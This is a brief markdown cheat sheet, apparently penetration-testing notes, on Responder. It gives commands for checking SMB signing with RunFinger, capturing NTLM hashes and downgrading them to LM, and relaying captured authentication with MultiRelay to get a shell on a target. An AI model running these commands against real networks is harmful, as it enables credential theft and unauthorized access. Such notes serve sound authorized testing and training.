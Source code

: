 #### Search for SMB signing
* `responder-RunFinger -i <target>`

#### Responder 
* `responder -i <interface> <--lm>`
  - `--lm` downgrade NTLMv1/v2 hashes to LM hashes where possible
#### Getting shell
While responder is running:
* `responder-MultiRelay -t <target> -u <username/ALL> `

Meterpreter shell:
* see Metasploit.md from this section
